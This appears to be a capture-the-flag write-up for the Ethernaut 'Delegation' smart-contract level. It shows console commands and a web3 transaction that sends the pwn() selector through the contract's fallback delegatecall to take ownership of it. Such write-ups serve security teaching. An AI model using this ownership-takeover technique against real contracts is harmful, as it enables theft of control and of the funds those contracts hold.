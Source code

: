 The contract accessible from the console has the class `Delegation`:

```js
// contains a fallback method, contrary to the Delegate class 
contract.abi
// 0x73379d8B82Fda494ee59555f333DF7D44483fD58
await contract.owner()
// 0xAAD026992b0065D4A9c7019B082cb748D042411F
player
```

Calling the `pwn` function from the context of the `Delegation` contract will change its owner.
And this is exactly what the fallback method allows, thanks to the `delegatecall`!

To point the `delegatecall` to the right function, it requires the encoded name and input of the function `pwn`.
This can be found in the ABI, or by just calling the `pwn` function: `0xdd365b8b`.

Finally, pass this data to the fallback funtion from `Delegation`:

```js
web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: '0xdd365b8b',
})
```